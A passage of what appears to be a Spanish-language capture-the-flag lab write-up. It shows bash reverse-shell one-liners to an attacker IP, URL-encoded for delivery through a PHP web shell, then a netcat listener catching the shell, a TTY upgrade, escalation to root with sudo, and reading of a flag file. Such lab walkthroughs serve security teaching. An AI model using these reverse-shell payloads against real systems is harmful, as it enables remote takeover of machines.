 

~~~
bash -i >& /dev/tcp/10.18.41.138/5000 0>&1
~~~

~~~
bash -i >%26 /dev/tcp/10.18.41.138/5000 0>%261
~~~

~~~
bash -c 'bash -i >%26 /dev/tcp/10.18.41.138/5000 0>%261'
~~~

Ahora visitamos `IP/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.18.41.138/5000 0>&1'` y notamos que la respeusta HTTP queda pendiente pero en la netcat si recibe la conexión:
~~~shell
$ sudo nc -nvlp 5000                                           
listening on [any] 5000 ...
connect to [10.18.41.138] from (UNKNOWN) [10.10.84.97] 46772
bash: cannot set terminal process group (1347): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-84-97:/var/www/html$ 
~~~


~~~shell
www-data@ip-10-10-84-97:/var/www/html$ tty
tty
not a tty
~~~


~~~shell
www-data@ip-10-10-84-97:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@ip-10-10-84-97:/var/www/html$ tty
tty
/dev/pts/0
www-data@ip-10-10-84-97:/var/www/html$ stty raw -echo;
~~~

~~~shell
www-data@ip-10-10-84-97:/var/www/html$ sudo su
sudo su
root@ip-10-10-84-97:/var/www/html# whoami
whoami
root
root@ip-10-10-84-97:/var/www/html# stty raw -echo;
stty raw -echo;
root@ip-10-10-84-97:/var/www/html# whoami  
root
root@ip-10-10-84-97:/var/www/html# ls ~ 
3rd.txt  snap
root@ip-10-10-84-97:/var/www/html# cat ~/3rd.txt
3rd ingredients: fleeb juice
~~~